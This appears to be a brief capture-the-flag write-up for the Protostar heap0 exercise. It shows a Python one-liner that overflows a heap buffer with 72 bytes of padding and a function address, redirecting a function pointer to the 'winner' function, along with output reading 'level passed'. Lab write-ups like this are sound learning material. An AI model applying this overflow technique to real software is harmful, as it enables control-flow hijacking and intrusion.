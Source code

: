 #Heap 0

Goal:Overwriting pointer to winneer (execute winner function)

```
[15:42:56] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/heap0$./heap0 $(python -c 'print "A" * 72 + "\xad\x84\x04\x08"')
data is at 0x804b008,fp is at 0x804b050
level passed
```
